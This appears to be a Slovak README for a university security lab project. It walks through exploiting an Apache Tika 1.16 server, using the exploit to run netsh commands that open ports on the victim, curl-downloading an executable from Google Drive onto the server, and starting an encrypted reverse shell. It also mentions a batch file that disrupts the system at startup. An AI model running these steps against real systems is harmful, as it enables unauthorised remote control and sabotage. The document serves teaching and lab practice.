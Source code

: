 # IC1-projekt

## Obsah repozitara
V repozitary su 3 zlozky :
### build
Tu sa nachadza iba subor `build.bat` ktory zkompiluje vsetky zdrojaky do 4 exe suborov :
1. **client_side** - cast virtualneho terminalu ktora sa spusta na klientovy (utocnik) ked uz boli otvorene porty pomocou exploitu.
2. **server_side** - cast virtualneho terminalu ktora sa spusta na servery ma 2 argumenty *[ip_addr_ca, ip_addr_client]*. 
3. **exploit** - subor ktory utoci na tika server, spusta sa na klientovy.
4. **CertificateAuthority** - Certifikacna autorita ktora sluzy ako tretia strana pri sifrovanej komunikacii medzi sererom a klientom.
### exploit 
V tejto zlozke sa nachadza subor `commands_list.txt` v ktorom su napisane 2 prikazy na otvorenie portov na serveri pre komunikaciu z CA (4444) a klientom (3333).
V subore `exploit.py` su zdrojove kody pre exploit.exe
### virtual_cmd
V tejto zlozke su zdrojove kody pre sifrovanu komunikaciu v zlozke `communication` a subory su zdrojove kody pre client_side.exe a server_side.exe respektivne.

## Ako spustit exploit
- na serveri najprv musime spustit tika server stiahnut sa da tu : https://archive.apache.org/dist/tika/tika-server-1.16.jar a nainstalovat javu
- po stiahnuti je treba nastavit firewall pravidlo pre tika server a to cez graficke rozrhanie cez : 
    -  Inbound Rules 
    - New rule
    - Program 
    - Nastavit cestu na tika server 
    - Allow connection 
    - vsetky oblasti 
    - meno : tika_server_allow  
- prikazom : `java -jar tika-server-1.16.jar -h [ip_addresa_servera]`
- funckionalitu je potreba vyskat tak ze na utocnikovej strane si ovtvorime prehliadac a "*ip_addresa_server*:9998"
- na utocnikovej strane je potrebne vypnut windows defender a windows firewall
- ako prove si musime stiahnut potrebne subory, v subore `commands_list.txt` sa nachadazju linky na 3. potrebne .exe subory 
    -   `exploit.exe`
    -   `client_side.exe`
    -   `CertificateAuthority.exe`
- exploit.exe je potrebne spustit na utocnikovej strane v cmd z pravami administratora
- po zadani IP adresy je mozne zadavat prikazy zo suboru commands_list a to prve dve : 
    -   `netsh advfirewall firewall add rule name="Allow port 3333" dir=in action=allow protocol=TCP localport=3333`
    -   `netsh advfirewall firewall add rule name="Allow p****ort 4444" dir=in action=allow protocol=TCP localport=4444`
- dalej je potrebne spustit CertificateAuthority.exe v novom terminaly z administrativnimy pravami
- v terminaly kde je spusteny exploit.exe je potrebne stiahnut subor server_side.exe
    -   `curl -L -o server_side.exe "https://drive.google.com/uc?export=download&id=1MWQaEGF5sdziP5qQR7zLXzuNJT_CAgcj"` 
- tento subor nasledovne stiahneme z prikazom server_side.exe *[ip_adresa_certifikacne_autority]* *[ip_adresa_klienta]*
- potom spustime na klientovy subor client_side.exe a zvolime ip adresu CA *(localhost v tomto pripade)* a serveru
- ak vsetko prebehlo ako malu virtualne cmd je inicializovane a je mozne sa pohybovat v adresarovej strukture servera a zadavat prikazy a ziskat aj output tychto prikazov
- dalej je mozne si stiahnut subor `disturb_system.bat` pomocou prikazu v `commands_list.txt` ktory rusit beh systemu po starte

## Struktura navodu
1. zprovoznit tika server na serveri
2. zprovoznit exploit uviezt niake priklady napr. spustit kalkulacku, vypnut system
3. nastavit firewall pravidla cez prikazy na serveri prostrednictvom exploitu
4. spustenie reverse shellu
5. ukazka prikazov vymazanie suborov, vypis adresaru servera v terminalu klienta cez reverse shell 
6. samostatna uloha prenos niakeho suboru z jedneho pocitaca na druhy (to este musim vymisliet ako tak to potom doplnim ja)
